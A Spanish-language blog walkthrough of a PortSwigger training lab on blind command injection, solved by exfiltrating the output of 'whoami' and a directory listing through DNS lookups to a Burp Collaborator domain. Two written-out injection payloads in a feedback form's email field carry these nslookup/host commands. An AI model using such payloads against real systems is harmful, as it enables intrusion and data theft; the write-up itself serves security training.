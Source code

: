 ```yaml
---
title: Blind command injection with out-of-band data exfiltration
description: Laboratorio de Portswigger sobre Command Injection
date: 2024-12-01 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - Command Injection
tags:
  - Portswigger Labs
  - Command Injection
  - Blind command injection with out-of-band data exfiltration
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `Blind Command Injection` en la `función` de `comentarios`. La aplicación `ejecuta` un `comando` en la `terminal` que incluye `datos` proporcionados por el `usuario`. El `comando` se ejecuta de forma `asíncrona` y no tiene efecto en la `respuesta` de la aplicación. No es posible `redireccionar` la `salida` a una `ubicación` accesible. Sin embargo, es posible desencadenar `out-of-band interactions` con un `dominio externo`. Para resolver el `laboratorio`, debemos ejecutar el `comando` `whoami` y exfiltra su `salida` mediante una `consulta DNS` a `Burp Collaborator`. Necesitaremos introducir el `nombre` del `usuario` actual para completar el `laboratorio`

---

## Guía de command injection

`Antes` de `completar` este `laboratorio` es recomendable `leerse` esta `guía de command injection` [https://justice-reaper.github.io/posts/Command-Injection-Guide/](https://justice-reaper.github.io/posts/Command-Injection-Guide/)

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/Command-Injection-Lab-5/image_1.png)

Pulsamos en `Submit feedback` y vemos un `formulario`

![](/assets/img/Command-Injection-Lab-5/image_2.png)

Hacemos `click` sobre `Submit feedback` y `capturamos` la `petición` con `Burpsuite`

![](/assets/img/Command-Injection-Lab-5/image_3.png)

La `respuesta` obtenida son unas `llaves vacías {}`

![](/assets/img/Command-Injection-Lab-5/image_4.png)

Nos dirigimos a `Burpsuite Collaborator` hacemos `click` en `Copy to clipboard`, debido a que no recibimos `ninguna respuesta` que indique que estamos `inyectando comandos`, esta es la única forma que podemos utilizar para ello, debemos usar este `payload` en los diferentes `campos` para ver si son `inyectables`

```
csrf=h2bWPuUAS3XRnSo6w2sMMhhnp9pXPlbe&name=test&email=||nslookup+`whoami`.s6z1cmuo54u5lsajrthrckwd84ev2sqh.oastify.com||&subject=test&message=test
```

Si nos vamos a `Burpsuite Collaborator` nuevamente veremos que hemos obtenido `dos peticiones DNS` con el `output` del comando `whoami`

![](/assets/img/Command-Injection-Lab-5/image_5.png)

Si necesitamos obtener más de una línea podemos usar este otro `payload` de `Hacktricks` [https://book.hacktricks.xyz/pentesting-web/command-injection#dns-based-data-exfiltration](https://book.hacktricks.xyz/pentesting-web/command-injection#dns-based-data-exfiltration)

```
csrf=h2bWPuUAS3XRnSo6w2sMMhhnp9pXPlbe&name=test&email=||for+i+in+$(ls+/);+do+host+"$i.4gldmy40fg4hv4kv15r3mw6pigo7c50u.oastify.com";+done||&subject=test&message=test
```

Pulsamos en `Submit solution` e `introducimos` el nombre de usuario `peter-qflr5j`

![](/assets/img/Command-Injection-Lab-5/image_6.png)
